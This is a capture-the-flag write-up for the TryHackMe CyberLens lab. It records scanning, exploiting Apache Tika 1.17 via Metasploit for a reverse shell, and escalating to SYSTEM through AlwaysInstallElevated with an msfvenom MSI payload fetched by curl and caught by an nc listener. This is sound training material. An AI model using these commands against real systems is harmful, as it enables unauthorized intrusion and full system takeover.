 Platform: TryHackMe\
Room: CyberLens\
URL: https://tryhackme.com/r/room/cyberlensp6\
Date: June 5, 2024

# Notes
10:21 am
Loaded target machine
IP 10.10.234.94

added cyberlens.thm to hosts file (mentioned in the room description)\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/dc1950a7-8a20-4dab-9752-f0bb18e66d02)

Fast NMAP scan of target. `nmap -F cyberlens.thm`\
Found ports 80,135,139,445,3389

rustscan of target. `rustscan -a 10.10.234.94\
Found ports 80,135,139,3389,445,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671,61777

Running nmap service scan of all open ports `nmap -sV -p80,135,139,3389,445,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671,61777 cyberlens.thm`
OUTPUT:
```
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Apache httpd 2.4.57 ((Win64))
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
61777/tcp open  http          Jetty 8.y.z-SNAPSHOT
```
Found HTTP servers on ports 80,5985,47001,61777

Opened firefox browser and burpsuite, proxying traffic

Navigated to http://cyberlens.thm

Identified file upload location\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/7563d775-8fcf-4127-8504-b32fd9ccb44c)

clicked "browse" and selected a benign JPG. Clicked "GET Metadata"

Proxy shows a request made to `cyberlens.thm:61777/meta`

Navigated to https://cyberlens.thm:61777. It is running `Apache Tika 1.17 Server`\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/9f653a6f-1c26-4b83-bae5-008279feb550)

Searched exploit-db for "Apache Tika 1.17, and found a metasploit exploit that seems compatible. (https://www.exploit-db.com/exploits/47208)

started msfconsole and searched for apache tika, and found the exploit module.

used module, and using default payload "windows/meterpreter/reverse_tcp"

set RHOSTS cyberlens.thm\
set RPORT 61777\
exploit

Exploit succeeded, established meterpreter shell\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/0013ced4-53ce-40f4-b7a8-db7ea20e3059)

`shell` opened shell. `powershell` opened powershell shell

Navigated to C:\Users. Found 2 users, Administrator and CyberLens

Navigated to C:\Users\CyberLens\Desktop and found a file named "user.txt"

10:48 am
Obtained first flag\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/8c3cebbe-b8a0-4232-8f92-bfc673e59686)

Navigated to C:\Users\CyberLens\Documents\Management and found file `CyberLens-Management.txt`

File appears to contain credentials:\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/6da3b7e0-1e1f-4a9c-a498-be60ac00cad9)

CyberLens
HackSmarter123

Checked MSI policies and found "AlwaysInstallElevated is enabled, and MSI is Not Disabled\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/7546a965-1d72-4e50-a44b-ef550b9119e6)

Created malicious msi file with msfvenom `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.205.247 LPORT=4445 -f msi -o malicious.msi`. set listening port to 4445 (to not interfere with open meterpreter shell on port 4444)

started python http server on attacker box `python3 -m http.server` in the same folder as the malicious.msi file

Used curl on victim box to curl the maliciuos.msi file from attacker box `curl http://10.10.205.247:8000/malicious.msi -o malicious.msi`\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/9cc345fb-54af-47e3-90b7-6503e04d7ad0)

Started nc listener on port 4445 `nc -nlvp 4445` on attacker box

Executed msi file on victim box `./malicious.msi`

Received shell as nt authority\system\ (got root)\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/b3a81216-fa79-4d20-a58b-37290fbd9b37)

Navigated to C:\Users\Administrator\Desktop. Found admin.txt file

11:05 am
Obtained root flag from admin.txt file\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/9e61b498-eaea-43b9-8fef-07c6872d0f6b)

Closed all open channels to victim box
Room Complete.



